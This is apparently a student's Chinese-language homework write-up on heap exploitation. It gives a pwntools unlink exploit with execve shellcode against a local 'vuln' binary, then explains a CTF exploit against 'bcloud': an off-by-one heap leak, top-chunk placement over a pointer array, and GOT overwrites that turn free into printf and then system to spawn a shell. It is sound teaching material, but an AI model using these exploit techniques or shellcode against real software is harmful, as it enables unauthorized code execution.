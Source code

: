 ### 1. 提交`unlink`攻击用`pwntools`改写的`exp.py`代码。

```python
#!/usr/bin/python
from pwn import *

# Set target program architecture.
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32

# Information to heap.
FUNCTION_POINTER = 0x08049778
CODE_ADDRESS = 0x804a008 + 0x10
shellcode = b"\xeb\x0assppppffff\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68" \
            "\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Construct and save the arrack string.
input = p32(0xdefaced) * 4
input += shellcode
input += ((680 - 4 * 4) - (4 * 4 + len(shellcode))) * b'B'
input += p32(0xffffffff)
input += p32(0xfffffffc)
input += p32(FUNCTION_POINTER - 12)
input += p32(CODE_ADDRESS)

with open('input_str_py', 'wb') as f:
    f.write(input)

# Start the target process with attack input.
p = process(argv=['./vuln', input])
# Get the shell.
p.interactive()
```

<div style="page-break-after:always;"></div>

### 2. 请解释`exploit`脚本中第`96`行到第`100`行代码的含义，其中`pos`变量的值是怎么计算出来的，目的是什么？

```
 96 heapBase = leakAddr - 8
 97 pos = 0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 16)
 98 payload1 = ''
 99 print '=== 5 new note, pos:', pos
100 new_note(str(pos), payload1)
```

通过`IDA`对`bcloud`进行反汇编、反编译，观察其功能和运行逻辑，发现函数`sub_804868D (命名为scanf_OFF_BY_ONE)`存在`OFF BY ONE`漏洞，以用于读取用户名的函数`sub_80487A1 (命名为scanfName)`为例，相关反编译代码如下：

```c
unsigned int scanfName()
{
  char s; // [esp+1Ch] [ebp-5Ch]
  char *v2; // [esp+5Ch] [ebp-1Ch]
  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&s, 0, 80u);
  puts("Input your name:");
  scanf_OFF_BY_ONE((int)&s, 64, '\n');
  v2 = (char *)malloc(64u);
  dword_804B0CC = (int)v2;
  strcpy(v2, &s);
  sayHello((int)v2);
  return __readgsdword(0x14u) ^ v3;
}

int __cdecl scanf_OFF_BY_ONE(int a1, int a2, char a3)
{
  char buf; // [esp+1Bh] [ebp-Dh]
  int i; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i < a2; ++i )
  {
    if ( read(0, &buf, 1u) <= 0 )
      exit(-1);
    if ( buf == a3 )
      break;
    *(_BYTE *)(a1 + i) = buf;
  }
  *(_BYTE *)(i + a1) = 0;
  return i;
}

int __cdecl sayHello(int a1)
{
  printf("Hey %s! Welcome to BCTF CLOUD NOTE MANAGE SYSTEM!\n", a1);
  return puts("Now let's set synchronization options.");
}
```

其中`s`是一个长度为`64`的字符数组，用于暂时存放用户输入的数据；`v2`为一个字符指针，指向一段使用`malloc()`分配的内存，用于长期保存用户输入的数据。观察`s`与`v2`的存储位置可知，`v2`位于高地址处，`s`位于低地址处且二者相邻。`scanf_OFF_BY_ONE()`运行时的退出条件是读取到回车符或读取字符数已达到`64`，若为后者，则最后的置零操作`*(_BYTE *)(i + a1) = 0;`将溢出，从而置零无效。因此，结合以上两个条件，当输入的`name`长度为`64`时，`s`数组将不包含结束符`\0`，而`v2`的最低字节被赋值为`\0`，当执行`v2 = (char *)malloc(64u);`时，`v2`又被赋值为分配出的内存的地址从而将原来的`\0`覆盖，当执行`strcpy(v2, &s);`时，除了原本`s`的`64`字节的输入外，由于没有结束符，其之后的`v2`的值也将被复制到分配的堆空间中。由于堆分配时申请的大小为`64`，将其`+ SIZE_SZ`后与`8`字节对其可知，实际分配的`chunk`大小为`72`字节，用户数据区域的大小为`68`字节，可以有额外`4`字节合法地存储`v2`。因此，在通过这种方式进行攻击后，申请的堆内存空间存储着输入的`64`字符和`v2`的值即该堆内存的用户数据空间的起始地址，当调用`sayHello()`函数回显用户名时，`v2`会随字符串一起输出，即输出的字符串的`[68:72]`部分（之前的数据为`"Hey " + 输入的64字节`，从而导致该`chunk`的相关地址泄露，即`leakAddr`为`chunk 1 -- name`的用户数据的起始地址，据此可计算出该`chunk`的起始地址即整个堆的基地址`heapBase = leakAddr - 8 (96)`。

继续分析程序，可以发现存在几个关键的全局变量：①长度为`10`的全局整数数组`dword_804B0A0`，其用来存储`10`个`Note`的长度，由用户手动输入，将其命名为`noteLength`；②长度为`10`的全局整数数组`dword_804B120`，其用来存储`10`个`Note`存储在堆内存的起始地址，将其命名为`notePtr`。后续的攻击的重要一步就是通过`malloc()`分配堆以分配到`notePtr`所在区域，能够向其中写入内容以完成攻击，`pos`变量的值就与之相关。

观察攻击程序的操作及涉及到的堆分配：①输入用户名时构造长度为`64`的字符串，分配了堆`chunk 1 -- name (大小为0x48)`，完成`OFF_BY_ONE`漏洞的利用，获取堆的基地址`heapBase`；②输入`org`及`host`，构造的输入分别为`64`个`b`和`\xff\xff\xff\xff`，分配了堆`chunk2 -- host (大小为0x48)`和`chunk3 -- org (大小为0x48)`；③新建`Note 1`，输入长度为`64`，内容为空，根据创建`Note`函数`Sub_80489AE (命名为createNote)`中的`notePtr[i] = (int)malloc(v2 + 4);`，将分配堆`chunk4 -- note1 (大小为0x48)`，其中`0x48`是`64 + 4 + SIZE_SZ`向`8`字节取整后的结果；④新建`Note 2`，输入长度为`64`，内容为空，分配堆`chunk5 -- note2 (大小为0x48)`；⑤新建`Note 3`，输入长度为`64`，内容为空，分配堆`chunk6 -- note3 (大小为0x48)`；⑥新建`Note 4`，输入长度为`64`，内容为`/bin/sh`，分配堆`chunk7 -- note4 (大小为0x48)`；⑦之后即到达以上需要分析的关键操作的构造，此时的堆分配情况如下所示：

![image-20220615035133829](https://raw.githubusercontent.com/BIIIANG/pic/main/202206150351900.png)

此时全局变量`notePtr`如下所示，可以看到他分别保存了各个`Note`所对应的堆中的存储位置：

![image-20220615035334483](https://raw.githubusercontent.com/BIIIANG/pic/main/202206150353527.png)

为了后续的攻击，现在的目标是通过`malloc()`分配堆以分配到`notePtr`所在区域，能够向其中写入内容以完成攻击。我们的思路是分配一个`chunk`使得`top chunk`到达`notePtr`附近，使得下次再分配`chunk`时分配得到的用户数据区域起始地址恰好与`notePtr`起始地址重合，从而可以方便地向`notePtr`写入数据。因此巧妙地构造申请这个`chunk`的`createNode`所输入的长度为`pos = 0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 16)`，其构造思路为：`pos`应该满足从当前`top chunk`中分配`pos + 4 + SIZE_SZ`向`8`字节对齐的内存后，下次分配的`chunk`的用户空间起始地址为`0x804b120`，去除下次分配的`chunk`的`chunk size`部分，该`chunk`的用户空间的结束地址应为`0x804b120 - 4`，因此有`heapBase + 0x48 * 3[name, host, org] + 0x48 * 4[note1, note2, note3, note4] + 4[previous chunk size] + 4[chunk size] + 向8字节对齐(pos + 4 + SIZE_SZ[chunk size]) - SIZE_SZ[chunk size] = 0x804b120 - 4`，变化得`向8字节对齐(pos + 8) = 0x804b120 - heapBase - 0x48 * 3 - 0x48 * 4 - 8`，由`heapBase`满足向`8`字节对齐，故该方程有解，一个解为`pos = 0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 16)`。事实上`pos`可取值的范围为`0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 16) ~ 0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 23)`，由于堆的对其策略，`pos`取这些值时分配到的堆的大小都是相同的且可以满足攻击的需要（经过实测可以完成攻击，有理解错误的地方还请老师指教）。

继续分析攻击程序的操作及涉及到的堆分配：⑦新建`Note 5`，输入长度为`pos = 0x804b120 - (heapBase + 0x48 * 3 + 0x48 * 4 + 16)`，内容为空，分配堆`chunk8 -- note5`；⑧新建`Note 6`，输入长度为`64`，内容为空，分配堆`chunk9 -- note6`，它的用户数据起始地址与全局变量`notePtr`的起始地址重合，可通过对`Note 6`的编辑修改全局变量`notePtr`。查看`chunk9 -- note6`如下所示：

![image-20220615043819008](https://raw.githubusercontent.com/BIIIANG/pic/main/202206150438073.png)

以上过程的整体内存布局如下所示：

![QQ图片20220615054436](https://raw.githubusercontent.com/BIIIANG/pic/main/202206150545464.jpg)

<div style="page-break-after:always;"></div>

### 3. 请解释为什么第`118`行到`121`行代码可以泄露出`printf`的地址？

```
118 #leak printf address
119 print "=== 9 del note"
120 leak_str= del_note('1', True)
121 printf_leak_addr = u32(leak_str[1:5])
```

前置分析见`2. 请解释exploit脚本中第96行到第100行代码的含义，其中pos变量的值是怎么计算出来的，目的是什么？`，继续分析攻击程序的操作：⑨编辑`Note 6`，向其写入`p32(got_free) + p32(got_printf)`，由之前的分析可知`Note 6`的起始地址即为全局变量`notePtr`的起始地址，因此该操作即置`notePtr[0] = elf.got['free']`，`notePtr[1] = elf.got['printf']`；⑩编辑`Note 1`，向其写入`elf.plt['printf']`，但此时`notePtr[0] = elf.got['free']`，因此实际是向`GOT`表中存储`free()`地址的位置（即`0x804h014`）写入了`printf@plt`的地址，此后调用`free()`函数时相当于调用了`printf()`函数；**⑪即该问题对应的代码，删除`Note 2`，删除函数会对`notePtr[1] = elf.got['printf']`调用`free()`函数，而上一步操作中已向`GOT`表中存储`free()`地址的位置写入了``printf@plt`即`jmp *printf@got`的地址，因此此时相当于对`elf.got['printf']`调用`printf()`函数，即可获得`GOT`表中`printf()`的地址。**⑫根据动态链接库中`system()`和`printf()`的偏移差和`printf()`的地址计算得到`system()`的地址，然后编辑`Note 1`，向其写入`system()`的地址，实际是向`GOT`表中存储`free()`地址的位置（即`0x804h014`）写入了`system()`的地址，此后调用`free()`函数时相当于调用了`system()`函数；⑬删除`Note 4`，由于`Note 4`中存放着`/bin/sh`且`free()`被替换为`system()`，因此该操作将执行`system("/bin/sh")`以获得`shell`，攻击完成。

![image-20220615045543634](https://raw.githubusercontent.com/BIIIANG/pic/main/202206150455692.png)